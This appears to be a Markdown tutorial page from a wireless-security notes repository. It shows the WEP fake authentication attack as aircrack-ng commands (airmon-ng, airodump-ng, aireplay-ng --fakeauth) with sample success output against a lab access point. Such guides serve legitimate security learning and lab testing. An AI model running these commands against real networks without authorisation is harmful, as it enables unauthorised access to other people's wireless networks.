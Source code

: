 # Fake Authentication Attack (WEP)

The fake authentication attack allows you to perform the two types of WEP authentication (Open System and Shared Key) plus associate with the access point (AP). This is only useful when you need an associated MAC address in various aireplay-ng attacks and there is currently no associated client. It should be noted that the fake authentication attack does NOT generate any ARP packets. Fake authentication cannot be used to authenticate/associate with WPA/WPA2 Access Points.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* No clients should be associated with AP or at least clients are idle

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE
```

```bash
# Success
01:56:20  Waiting for beacon frame (BSSID: AA:BB:CC:DD:EE:FF) on channel 3
01:56:20  Sending Authentication Request (Open System) [ACK]
01:56:20  Authentication successful
01:56:20  Sending Association Request [ACK]
01:56:20  Association successful :-) (AID: 1)

# Also a new client is added and AUTH set to OPN
[CH  3 ][ Elapsed: 5 mins ][ 2023-06-13 01:57 ][ paused output
BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
AA:BB:CC:DD:EE:FF  -53 100     2987      303    0   3   54e. WEP  WEP    OPN  wifu

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
AA:BB:CC:DD:EE:FF  AA:AA:AA:AA:AA -71   54e-54e     0      457
```

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Fake Authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)
